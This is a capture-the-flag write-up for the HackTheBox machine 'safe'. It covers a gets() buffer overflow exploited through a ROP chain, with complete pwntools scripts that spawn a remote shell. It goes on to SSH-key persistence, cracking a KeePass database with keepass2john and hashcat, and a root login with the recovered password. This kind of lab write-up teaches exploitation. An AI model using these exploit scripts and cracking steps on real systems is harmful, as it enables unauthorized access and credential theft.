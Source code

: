 # Hackthebox: safe

## 1. Analysis
At the time of writing, safe is active at `10.10.10.147`. Viewing the page gives the default Apache2 debian page. Nothing is visibly different, but viewing source reveals a comment at the start:
```
<!-- 'myapp' can be downloaded to analyze from here
     its running on port 1337 -->
```

Great, something to target. It's running on port `1337`, and can be downloaded at `10.10.10.147/myapp`. `file myapp` shows it's a 64bit `ELF` executable. The app will first run `/usr/bin/uptime`, and then print `What do you want me to echo back?`. It then waits for user input, uses `gets()` *\*cough*\* **insecure** *\*cough\** to get the user input, prints it to screen, then exits.

Running `echo $(perl -e 'print "A"x150') | ./myapp` gives us a lovely little `Segmentation fault` :). Further testing reveals that it will overwrite rbp, and crash, with more than 120 characters. Great, all we need is to throw in some `/bin/sh` shellcode and boom, shell... well, no. Unfortunately the binary has the `NX` bit set, meaning we're limited to ROP gadgets to do our bidding.

Analyzing the disassembly reveals a function called `test`, which is never called:
```x86asm
.text:0000000000401152                 public test
.text:0000000000401152 test            proc near
.text:0000000000401152 ; __unwind {
.text:0000000000401152                 push    rbp
.text:0000000000401153                 mov     rbp, rsp
.text:0000000000401156                 mov     rdi, rsp
.text:0000000000401159                 jmp     r13
.text:0000000000401159 test            endp
```
This is great, specifically the `jmp r13` part of it ;). All we need is a way to control `r13`. Let's see what `ropper` gives us:
```bash
$ ropper -f ./myapp | grep "r13"
0x0000000000401204: pop r12; pop r13; pop r14; pop r15; ret; 
0x0000000000401206: pop r13; pop r14; pop r15; ret; 
0x0000000000401203: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x0000000000401205: pop rsp; pop r13; pop r14; pop r15; ret; 
```
We don't want to touch rsp or rbp, and the first one just makes our payload larger - `0x0000000000401206` is our target. Remember that we can't just place some shellcode and jump to that, instead we'll abuse the use of `system()`, which is at `0x0000000000404060`. `system()` uses rdi for it's argument - a pointer to a string that is the command to be executed... now how would we modify rdi?... Once again, `test` comes to our rescue:
```x86asm
.text:0000000000401156                 mov     rdi, rsp
```
All we need is to place `/bin/sh` at `rsp` when it hits segfault. If we test this, we find out it's 120 characters in. `/bin/sh` is 8 characters, including null-byte (`/bin/sh\x00`), so we need 112 bytes of junk.

## 2. Putting it together:
Recapping the above: we need 112 bytes of junk, followed by `/bin/sh\x00`, then the address of the pop gadget which will be called. The next 3 values will go into `r13`, `r14`, and `r15` respectively. `r13` needs to be the address of `system()`, `r14`, and `r15` are irrelevant, and can be null. Finally comes the address of `test`, where the magic happens. The final payload should look something like this:
```x86asm
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ; junk 
/bin/sh\x00 ; string passed to system()
\x06\x12\x40\x00\x00\x00\x00\x00 ; address of pop gadget
\x40\x10\x40\x00\x00\x00\x00\x00 ; address of system() -> r13
\x00\x00\x00\x00\x00\x00\x00\x00 ; null -> r14
\x00\x00\x00\x00\x00\x00\x00\x00 ; null -> r15
\x52\x11\x40\x00\x00\x00\x00\x00 ; address of test
```
or in python:
```python
from pwn import *

junk = "A"*112
sh = "/bin/sh\x00"
pop = "\x06\x12\x40\x00\x00\x00\x00\x00"
system_r13 = "\x40\x10\x40\x00\x00\x00\x00\x00"
null_r14_r15 = "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
test = "\x52\x11\x40\x00\x00\x00\x00\x00"

payload = junk + sh + pop + system_r13 + null_r14_r15 + test
app = process("./myapp")
app.sendline(payload)
app.interactive()
```
Running this gives us a lovely 
```
$
``` 
:)

## 3. Getting the user flag:
With some simple changes to the exploit, we can remotely exploit it:
```python
from pwn import *

junk = "A"*112
sh = "/bin/sh\x00"
pop = "\x06\x12\x40\x00\x00\x00\x00\x00"
system_r13 = "\x40\x10\x40\x00\x00\x00\x00\x00"
null_r14_r15 = "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
test = "\x52\x11\x40\x00\x00\x00\x00\x00"

payload = junk + sh + pop + system_r13 + null_r14_r15 + test
app = remote("10.10.10.147","1337")
app.sendline(payload)
app.interactive()
```

Running this gives us a shell on the machine. Navigating to `/home/user` gives the user flag, which is... well, you can find out yourself ;). Time for the next step, which is getting the root flag.

## 4. Getting the root flag:
Looking in the user home directory, reveals a few interesting files:
```
$ ls
IMG_0545.JPG
IMG_0546.JPG
IMG_0547.JPG
IMG_0548.JPG
IMG_0552.JPG
IMG_0553.JPG
myapp
MyPasswords.kdbx
user.txt
```

`.kdbx`?! huh? What on earth is that? ~~Googling~~ DuckDuckGo-ing tells us that it's a keepass file. There's also a bunch of photos... could they have something to do with the `.kdbx`? Searching `JPG keepass` on duckduckgo links us to [here](https://keepass.info/help/base/keys.html): "The database can also be locked using a key file. A key file is basically a master password in a file... KeePass can generate key files for you, however you can also use any other, already existing file (like **JPG** image, DOC document, etc.).". [This](https://www.rubydevices.com.au/blog/how-to-hack-keepass) website talks about a tool called `keepass2john` which is used to extract master keys hashes from key files. Great, let's get these files on our local machine. We get our public key from `~/.ssh/id_rsa.pub` on our machine, and `echo` that into `~/.ssh/authorized_keys` on the remote machine:
```
echo "ssh-rsa **key** username@machinename" > .ssh/authorized_keys
```
Now we can use `scp` and `ssh`. For each image, we run `scp user@10.10.10.147:/home/user/IMG_xxx.JPG ./`, followed by `keepass2john -k IMG_xxx.JPG MyPasswords.kbdx`. We now have master password hashes we can crack. `hashcat` has an option for keypass hashes - `-m 13400`. Iterating over all the extracted hashes reveals that the third image (`IMG_0547.JPG`) contains the master password, which is `bullshit`. Using `keepassx`, we can open `MyPasswords.kdbx`, using password `bullshit`. KeePassX shows that there is a password in the db called "Root password". We `ssh` back into the machine (as user), and run `su root`, giving the password we found in the db:
```
user@safe:~$ su root
Password: 
root@safe:/home/user# whoami
root
root@safe:/home/user# cd ~
root@safe:~# ls
root.txt
root@safe:~# cat root.txt
<REDACTED>
```
Machine owned :)
